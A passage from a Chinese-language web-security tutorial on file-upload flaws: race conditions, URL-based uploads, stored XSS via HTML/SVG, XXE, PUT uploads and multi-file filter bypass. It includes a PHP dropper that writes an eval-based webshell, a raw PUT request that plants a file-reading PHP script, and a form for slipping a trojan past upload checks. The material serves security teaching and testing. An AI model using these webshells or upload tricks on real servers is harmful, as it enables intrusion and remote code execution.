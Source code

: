 > *   攻击者需要先上传一个WebShell脚本1.php，1.php的内容为生成一个新的WebShell脚本shell.php，1.php写入如下代码
>
>     ```shell
>     <?php
>     	fputs(fopen("../shell.php", "w"),'<?php @eval($_POST['cmd']); ?>');
>     ?>
>     ```
> * 当1.php上传完成后，客户端立即访问1.php，则会在服务端当前目录下自动生成shell.php，这时攻击者就利用了时间差完成了WebShell的上传

### 8. 基于 URL 的文件上传中的竞争条件

允许您通过提供 URL 上传文件的函数中可能会出现类似的竞争条件。在这种情况下，服务器必须通过 Internet 获取文件并创建本地副本，然后才能执行任何验证。

由于文件是使用 HTTP 加载的，开发人员无法使用其框架的内置机制来安全验证文件。相反，他们可能会手动创建自己的进程来临时存储和验证文件，这可能不太安全。

例如，如果文件被加载到一个随机名称的临时目录中，理论上，攻击者应该不可能利用任何竞争条件。如果他们不知道目录的名称，他们将无法请求该文件以触发其执行。另一方面，如果随机目录名称是使用伪随机函数（如 PHP 的）生成的`uniqid()`，则它可能会被暴力破解。

为了使此类攻击更容易，您可以尝试延长处理文件所花费的时间，从而延长暴力破解目录名称的时间。一种方法是上传更大的文件。如果它以块的形式处理，您可以通过创建一个恶意文件来利用这一点，该恶意文件的开头是有效负载，后跟大量任意填充字节

### 9. 无需远程代码执行即可利用文件上传漏洞

#### 1. 上传恶意客户端脚本

虽然您可能无法在服务器上执行脚本，但您仍然可以上传脚本以进行客户端攻击。例如，如果您可以上传 HTML 文件或 SVG 图像，则可以使用`<script>`标签来创建存储的 XSS负载。

如果上传的文件随后出现在其他用户访问的页面上，则他们的浏览器将在尝试呈现该页面时执行该脚本。请注意，由于[同源策略的](https://portswigger.net/web-security/cors/same-origin-policy)限制，只有当上传的文件是从您上传文件的同一源提供服务时，这些类型的攻击才会起作用。

#### 2. 利用上传文件解析漏洞

如果上传的文件似乎已安全存储和提供，最后的手段是尝试利用特定于解析或处理不同文件格式的漏洞。例如，您知道服务器解析基于 XML 的文件，例如 Microsoft Office`.doc`或`.xls`文件，这可能是[XXE 注入](https://portswigger.net/web-security/xxe)攻击的潜在向量。

### 10. 使用 PUT 上传文件

值得注意的是，某些 Web 服务器可能配置为支持`PUT`请求。如果没有适当的防御措施，这可以提供一种上传恶意文件的替代方法，即使上传功能无法通过 Web 界面使用。

```shell
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

### 11. 多文件上传

本意为上传两个或多个文件去突破。上传点支持多文件上传，但是却只对第一个文件做了过滤。

利用方式：

> * 在存在双文件上传漏洞的页面中，查看上传的页面。F12找到上传的post表单，action属性是指定上传检测页面，一般是写的绝对路径，比如：`xxx.asp/xxx.php`
> * 补全url：`https://www.xxx.com/xxx.php(asp)`
> *   构造本地post提交表单
>
>     ```shell
>     <form action="https://www.xxx.com/xxx.asp(php)" method="post"
>     name="form1" enctype="multipart/form‐data">
>     <input name="FileName1" type="FILE" class="tx1" size="40">
>     <input name="FileName2" type="FILE" class="tx1" size="40">
>     <input type="submit" name="Submit" value="上传">
>     </form>
>     ```
> * 利用时只需要修改action的值为指定上传页面即可
> * 第一个文件上传允许的文件类型（`.jpg` `.png` `.gif` 等），第二个上传文件是一句话木马或者WebShell脚本。这样就可以突破上传限制，成功上传木马到服务器。
